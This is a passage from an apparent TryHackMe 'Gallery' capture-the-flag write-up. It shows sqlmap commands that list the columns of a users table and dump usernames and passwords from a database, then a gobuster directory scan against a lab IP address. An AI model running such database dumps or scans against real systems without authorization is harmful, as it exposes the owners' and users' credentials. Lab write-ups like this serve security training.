 Now I will empty the columns of the `users` table.

```
$ sqlmap -r test.req -D gallery_db -T users --columns
```

![columns](/assets/img/tryhackme/gallery/columns.png)

Now let's dump the `id, username, firstname, and password`.

```
$ sqlmap -r test.req -D gallery_db -T users -C id,username,firstname,password --dump
```

![dump](/assets/img/tryhackme/gallery/dump.png)


<br>

### 1.4 What's the user flag?

Let's do a `gobuster` scan.

```
$ gobuster dir -u http://10.10.35.177/gallery/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,txt
```
